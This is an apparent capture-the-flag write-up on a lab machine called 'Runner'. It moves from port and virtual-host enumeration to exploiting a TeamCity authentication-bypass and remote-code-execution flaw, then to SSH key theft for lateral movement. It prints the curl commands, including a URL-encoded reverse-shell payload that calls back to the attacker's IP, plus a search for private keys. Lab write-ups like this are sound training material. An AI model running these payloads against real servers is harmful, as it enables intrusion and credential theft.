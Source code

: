 IP=`10.10.11.13`

## Enumeration
**nmap**
Inital scan:
```bash
❯ nmap -p- --min-rate 10000 -Pn $IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-26 12:33 EDT
Nmap scan report for 10.10.11.13
Host is up (0.057s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt
```

Diving a bit deeper...
```bash
sudo nmap -p22,80,8000 -A -sCV -sT -Pn $IP
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)

80/tcp   open  http        nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://runner.htb/

8000/tcp open  nagios-nsca Nagios NSCA
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (96%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using proto 1/icmp)
HOP RTT      ADDRESS
1   41.38 ms 10.10.14.1
2   42.96 ms 10.10.11.13
```
Domains found: `runner.htb`
Adding this to `/etc/hosts`:
```bash
echo $IP 'runner.htb' | sudo tee -a /etc/hosts
```

Also in the scan is `Nagios NSCA`. NSCA is a Nagios service that allows you to check results from remote machines and applications with Nagios. The results are received and submittedd to nagios as Passive checks. 
- [Nagios - Github](https://github.com/NagiosEnterprises/nsca)
Addon that allows you to send service check results to a central monitoring server running Nagios in a secure manner.

At this point I ran some `vhost` enumeration using `wfuzz`.

```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/namelist.txt --hc 400,404,403 -H "Host: FUZZ.runner.htb" -u http://runner.htb -t 100 --hh 154
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://runner.htb/
Total requests: 151265

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000131574:   401        1 L      9 W        66 Ch       "teamcity"        

Total time: 0
Processed Requests: 151265
Filtered Requests: 151264
Requests/sec.: 0
```
- **`-c`**: This enables colored output, making the results easier to read by highlighting different parts with various colors.
- **`-w /usr/share/seclists/Discovery/DNS/namelist.txt`**: This specifies the wordlist to use for fuzzing. In this case, it's using a wordlist located at `/usr/share/seclists/Discovery/DNS/namelist.txt`, which is typically a list of common names used in DNS subdomain enumeration.
- **`--hc 400,404,403`**: This flag tells `wfuzz` to hide (not show) responses that return HTTP status codes 400 (Bad Request), 404 (Not Found), and 403 (Forbidden). Essentially, it filters out these commonly uninformative responses to focus on more interesting or unusual results.
- **`-H "Host: FUZZ.runner.htb"`**: This flag is used to modify the HTTP header for the requests. Here, the `Host` header is being fuzzed with entries from the provided wordlist. This technique is often used in testing virtual host configurations to discover hosts configured on the server that aren't linked or directly accessible via DNS. `"FUZZ"` is replaced by each entry in the wordlist during the fuzzing process.
- **`-u http://runner.htb`**: This sets the base URL for the fuzzing. All requests will be directed to this URL, but with the modifications specified in other options (like the `Host` header).
- **`-t 100`**: This option sets the number of concurrent connections to 100. Using multiple threads allows `wfuzz` to perform requests in parallel, significantly speeding up the fuzzing process.
- **`--hh 154`**: This hides responses with exactly 154 characters in the HTTP response body. It's a way to filter out responses that are likely to be error pages or other generic responses that are of a uniform size, which often don't provide useful information.

I then added `teamcity.runner.htb` to `/etc/hosts`.

Checking the new domain on the browser presents a JetBrains Teamcity Server instance 

![[Pasted image 20240426132637.png]]

From above we can note that it is `Version 2023.05.3 (build 129390)`
https://blog.jetbrains.com/teamcity/2023/08/teamcity-2023-05-3-is-here/
```bash
searchsploit teamcity    
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
JetBrains TeamCity 2018.2.4 - Remote Code Execut | java/remote/47891.txt
JetBrains TeamCity 2023.05.3 - Remote Code Execu | java/remote/51884.py
```

- [CVE-2023-42793 - RCE/Authentication Bypass vulnerability](https://blog.jetbrains.com/teamcity/2023/10/cve-2023-42793-vulnerability-in-teamcity-update/)
- [51884.py](https://www.exploit-db.com/exploits/51884)

![[Pasted image 20240426133027.png]]

After a bit more research while looking for a way to get code execution and get a foothold on the machine, I am across another CVE for version `2023.05.03`.
[CVE-2023-42793](https://www.prio-n.com/blog/cve-2023-42793-attacking-defending-JetBrains-TeamCity)

To execute this RCE, we first need to enable the debug permissions to do so:

![[Pasted image 20240426142411.png]]
`curl -s -X POST "http://teamcity.runner.htb/app/rest/debug/processes?=exePath=id" `

```bash
curl -XPOST "http://teamcity.runner.htb/admin/dataDir.html?action=edit&fileName=config/internal.properties&content=rest.debug.processes.enable=true" -H "Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.cmFmTWswcUJZVzQtZ1VuWVBQemNHZGZGR0w4.MWYzNTE5MmQtMDZjOC00ZTA3LTlkNWItYmNhOTJkYTNkNTM4" -H "Content-Type: text/plain"
```
`rest.debug.processes.enable=true` is the key thing to note from above.

Now, according to the blog post we should be able to gain command execution and get a reverse shell as follows:

```bash
curl -XPOST "http://teamcity.runner.htb/app/rest/debug/processes?exePath=/bin/bash&params=-c&params=sh+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.36%2F7777+0%3E%261" -H "Authorization: Bearer $TOKEN" -H "Content-Type: text/plain"
```

After starting a listener using `netcat`, and running the `curl` command we get a shell!

![[Pasted image 20240426150007.png]]

From here, when landing on a machine; I always like to run `linpeas.sh`, and look for any possible SSH keys that can be used for further lateral movement.

```bash
find / -name "id_rsa" -name ".ssh" "id_ed25519" -exec realpath {} \; 2>/dev/null
```

```bash
tcuser@647a82f29ca0:~$ find / -name "id_rsa" 2>/dev/null
find / -name "id_rsa" 2>/dev/null
/data/teamcity_server/datadir/config/projects/AllProjects/pluginData/ssh_keys/id_rsa
```

After finding the RSA SSH key, I tried SSH'ing into the machine using `admin` and `tcuser`, however I had no luck so I went back to the web interface in which I was logged in as the admin from using the CVE to get unauthenticated admin access with a new user. Here, I was able to find some users at `/admin/admin.html?item=users`
**Users:**`john`, `matthew`, `admin`

After changing the permissions on the private key with `chmod 700 id_rsa` I was able to successfully login as the user `john`. 

Now, now that we are past the docker container we can upload `linpeas.sh` and begin with our local enumeration for privilege escalation vectors.

###### To Be Continued...